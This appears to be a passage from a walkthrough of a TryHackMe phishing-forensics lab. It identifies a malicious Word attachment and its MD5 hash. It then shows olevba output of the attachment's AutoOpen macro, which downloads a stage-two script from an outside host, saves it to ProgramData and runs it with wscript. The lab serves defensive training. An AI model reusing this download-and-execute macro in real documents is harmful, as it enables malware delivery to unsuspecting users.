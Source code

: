 
**What is the name of the attached malicious document?**

![](images/boogeyman-2-attachment.png)

Viewing the email in Evolution mail, we see a file call "Resume_WesleyTaylor.doc" is attached.

---

**What is the MD5 hash of the malicious attachment?**

From Evolution mail, we can save the attachment and run the below command to get the md5 hash:

ubuntu@tryhackme:~/Desktop/Artefacts$ `md5sum Resume_WesleyTaylor.doc`

```
52c4384a0b9e248b95804352ebec6c5b  Resume_WesleyTaylor.doc
```

---

**What URL is used to download the stage 2 payload based on the document's macro?**

We can now use Olevba to see what the macro does in this document and look for a suspicious URL. Run the following command on the attachment we saved earlier.

ubuntu@tryhackme:~/Desktop/Artefacts$ `olevba Resume_WesleyTaylor.doc`

```
Sub AutoOpen()

spath = "C:\ProgramData\"
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png", False
xHttp.Send
With bStrm
    .Type = 1
    .Open
    .write xHttp.responseBody
    .savetofile spath & "\update.js", 2
End With

Set shell_object = CreateObject("WScript.Shell")
shell_object.Exec ("wscript.exe C:\ProgramData\update.js")

End Sub
```
